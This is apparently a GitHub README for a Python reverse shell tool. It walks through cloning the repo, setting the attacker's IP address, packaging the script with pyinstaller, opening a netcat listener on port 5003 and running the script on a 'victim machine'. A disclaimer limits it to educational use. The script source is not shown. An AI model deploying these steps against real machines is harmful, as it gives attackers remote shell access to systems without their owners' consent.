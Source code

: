 # ReverseShell | Written In <a href="https://www.python.org/"><img src="https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54" alt="Python Badge"/></a>
- A python3 reverseshell.

![revsh](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/backd_profile.jpeg)

## How to use this reverseshell?:snake:

Clone the repo:
```
git clone https://github.com/Keyj33k/ReverseShell.git
```
- Now you need to navigate to the ReverseShell directory.
- You will find a file called >> reverseshell.py:

- IMPORTANT: You need to change the ipv4 address in the script:
---
![exa](https://github.com/Keyj33k/profiles/blob/main/profile/revsh.png?raw=true)
---
- OPTIONAL: You can make a executable using command:
```
pyinstaller --onefile reverseshell.py
```

### After saving your settings you can test it:

- On the attacker machine:
```
nc -lnvp 5003
```

- On the vivtim machine:
```
python3 reverseshell.py 
```
# Explained:

![listener](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/reverseshell.jpeg)

Note:
- This tool is for educational and ethical purposes only. 
- I'm not responsible for your actions. 
- Don't hack anyone without their permissions.
- With great force follows great responsibility.

---
![pypy](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/pypy.jpeg)
---
---
  
- Tested on 5.17.0-kali3-amd64, 5.15.0-39-generic-Ubuntu
  
---


